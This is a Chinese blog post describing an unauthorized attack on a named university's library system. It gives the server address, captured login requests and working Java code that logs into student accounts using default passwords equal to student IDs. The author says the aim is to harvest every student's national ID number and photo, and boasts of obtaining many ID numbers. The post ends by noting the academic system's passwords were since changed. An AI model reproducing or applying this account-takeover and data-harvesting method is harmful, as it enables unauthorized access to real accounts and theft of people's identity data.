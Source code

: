 ```yaml
---
layout: mypost
title: 学校图书馆登陆模拟
categories: [Java]
---
```


最近学校宽带总是断网，没办法只能访问学校的内网，很是无聊

打发时间，打算把全校所有学生照片爬取下来

基本思路就是从图书借阅系统入手，登陆名为学号，初始密码是学号，一般很少有人改动，登陆成功后从个人信息那里可以获取到身份证号。根据学号生成的规律把大一到大四的所有学号生成出来，然后模拟登陆，大量身份证号get

其次是教务管理系统，登录名为学号，登陆密码是身份证号，也是很少有人改动，模拟登陆，然后在个人信息那里有一张个人照片，解析到照片地址，下载haha

## 登陆原理

1. 浏览器第一次访问登陆时，没有携带sessionid，然后服务器会生成一个sessionid，并在cookie里面返回sessionid，带给浏览器，之后我们的任何访问都会带上这个sessionid

2. 登录时，我们的name和password和Cookie(里面记录了sessionid)都是提交给服务器，如果密码正确，服务器会把用户和sessionid关联，应该是`getSession.setAttribute("name",name)`之类的操作

3. 访问后台的一些页面时，sessionid会跟随Cookie携带过去，原理应该是`getSession.getAttribute("name")`之类的操作，如果不空，根据获得的name进行操作，如果为空则302到登陆界面

4. 注销操作，应该是类似`getSession.removeAttribute("name")`的操作

## 请求分析

使用F12开发工具对登陆的请求分析

General

```
Request URL:http://210.45.147.188:8080/reader/redr_verify.php
Request Method:POST
Status Code:302 Found
Remote Address:210.45.147.188:8080
```

Request

```
POST /reader/redr_verify.php HTTP/1.1
Host: 210.45.147.188:8080
Origin: http://210.45.147.188:8080
Content-Type: application/x-www-form-urlencoded
Referer: http://210.45.147.188:8080/reader/redr_verify.php
Cookie: PHPSESSID=hknd8ummdi8tbe5dve7osrm6e4
```

Form Data

```
number=xxx&passwd=xxx&select=cert_no&returnUrl=
```

Response

```
Content-Type:text/html
Location:redr_info.php
Server:Apache/2.2.22 (Win32) PHP/5.2.17
X-Powered-By:PHP/5.2.17
```

## 图书馆登陆代码

```java
public class Main {
	public static void main(String[] args) throws IOException {

		String number= "***";
		String passwd = "****";
		
		//第一次让服务器建立一个sessionid，获取到这个id
		URL httpUrl =  new URL("http://210.45.147.188:8080/reader/login.php");
		HttpURLConnection conn = (HttpURLConnection) httpUrl.openConnection();
		String sessionIdStr = conn.getHeaderField("Set-Cookie").substring(0,36);
		conn.disconnect();
		
		//第二次访问登陆验证，带上sessionid，发现get可以直接登陆
		//密码正确的话是一个302跳转
		httpUrl =  new URL("http://210.45.147.188:8080/reader/redr_verify.php?number="+number+"&passwd="+passwd+"&select=cert_no&returnUrl=");
		conn = (HttpURLConnection) httpUrl.openConnection();
		conn.addRequestProperty("Cookie", sessionIdStr);
		//为了获取302返回的Location,所以禁止自动跳转到302之后的地址
		conn.setInstanceFollowRedirects(false);
		String location = conn.getHeaderField("Location");

		boolean goNext = false;
		if ("redr_con.php".equals(location)) {
			System.out.println("您尚未完成身份认证，请进行身份核实, 如果认证失败，您将不能使用我的图书馆功能");
		}else if(location==null){
			System.out.println("对不起，密码错误，请查实！");
		}else{//redr_info.php
			System.out.println("成功登入系统....");
			goNext = true;
		}
		conn.disconnect();
		
		if (!goNext) {
			return;
		}

		//进入用户信息首页
		//登陆成功时，服务器会把账号和sessionid，后面的操作都不需要用户名和密码了
		httpUrl =  new URL("http://210.45.147.188:8080/reader/redr_info.php");
		conn = (HttpURLConnection) httpUrl.openConnection();
		conn.addRequestProperty("Cookie", sessionIdStr);
		
		//输出学生信息
		showUserInfo(changeStreamToString(conn.getInputStream(),"utf-8"));
        
		//输出所有历史借阅信息
		httpUrl =  new URL("http://210.45.147.188:8080/reader/book_hist.php?para_string=all");
		conn = (HttpURLConnection) httpUrl.openConnection();
		conn.addRequestProperty("Cookie", sessionIdStr);
		showBorrowInfo(changeStreamToString(conn.getInputStream(),"utf-8"));
	}
	
	//显示个人信息
	public static void showUserInfo(String htmlStr){
		//使用Jsoup解析Html文档
		Document document = Jsoup.parse(htmlStr);
		Elements tds = document.getElementById("mylib_info").getElementsByTag("td");
		Elements spans = document.getElementById("mylib_info").getElementsByTag("span");
		for(int i=1;i<tds.size();i++){
			System.out.println(spans.get(i).ownText()+tds.get(i).ownText());
		}
	}
	
	//显示所有借阅历史
	public static void showBorrowInfo(String htmlStr){
		
		Document document = Jsoup.parse(htmlStr);
		Elements trs = document.getElementById("mylib_content").getElementsByTag("tr");
		
		for(Element tr:trs){
			for(Element td:tr.getElementsByTag("td")){
				if (td.getElementsByTag("a").size()!=0) {
					System.out.print(td.getElementsByTag("a").get(0).ownText()+"\t");
				}else{
					System.out.print(td.ownText()+"\t");
				}
			}
			System.out.println();
		}
	}
	
	public static String changeStreamToString(InputStream inputStream,String edcode) throws IOException{
		BufferedReader in = new BufferedReader(new InputStreamReader(inputStream,edcode));
		String line;
		StringBuffer result = new StringBuffer();
		while ((line = in.readLine()) != null)
        		result.append(line);
		return result.toString();
	}
}
```

### 效果

![p01](01.jpg)

![p02](02.jpg)

## 教务系统登陆

原理同上，和图书馆登陆一样，也是基于session认证

MD 搬到新校区后，第一次登陆教务系统要改密码，全都改了，还不能是纯数字，没办法进行下去了...

就到这里了，反正弄到一大堆身份证号o(≧v≦)o~~好棒